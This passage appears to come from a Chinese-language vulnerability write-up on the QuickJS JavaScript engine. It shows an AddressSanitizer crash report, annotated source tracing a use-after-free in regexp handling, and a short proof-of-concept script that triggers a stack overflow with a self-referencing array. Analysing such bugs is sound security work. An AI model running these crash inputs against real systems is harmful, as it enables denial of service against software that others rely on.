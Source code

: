 ```
Stack after return:      f5
Stack use after scope:   f8
Global redzone:          f9
Global init order:       f6
Poisoned by user:        f7
Container overflow:      fc
Array cookie:            ac
Intra object redzone:    bb
ASan internal:           fe
Left alloca redzone:     ca
Right alloca redzone:    cb
==76200==ABORTING
```

对象在JS_NewObjectFromShape函数中被分配：

```
static JSValue JS_NewObjectFromShape(JSContext *ctx, JSShape *sh, JSClassID class_id)
`{`
    JSObject *p;

    js_trigger_gc(ctx-&gt;rt, sizeof(JSObject));
    p = js_malloc(ctx, sizeof(JSObject));  &lt;-------------------------------------------allocated
    if (unlikely(!p))
        goto fail;

在JS_SetPropertyInternal函数中被释放之后没有清空，

    pr = add_property(ctx, p, prop, JS_PROP_C_W_E);
    if (unlikely(!pr)) `{`
        JS_FreeValue(ctx, val);  &lt;-------------------------------------------freed
        return -1;
    `}`

在js_regexp_Symbol_search函数之后的流程中被读取，造成UAF

        exception:
        JS_FreeValue(ctx, result); &lt;-------------------------------------------UAF
        JS_FreeValue(ctx, str);
        JS_FreeValue(ctx, currentLastIndex);
        JS_FreeValue(ctx, previousLastIndex);
        return JS_EXCEPTION;
    `}`
```

[![](https://p0.ssl.qhimg.com/t0103178655e024dc23.gif)](https://p0.ssl.qhimg.com/t0103178655e024dc23.gif)

### <a class="reference-link" name="3.3%20Stack-overflow_JS_CreateProperty"></a>3.3 Stack-overflow_JS_CreateProperty

```
Stack-overflow_JS_CreateProperty.js

    var v2 = [13.37];
    v2[1] = v2;
    var v3 = v2.flat(100000);
```
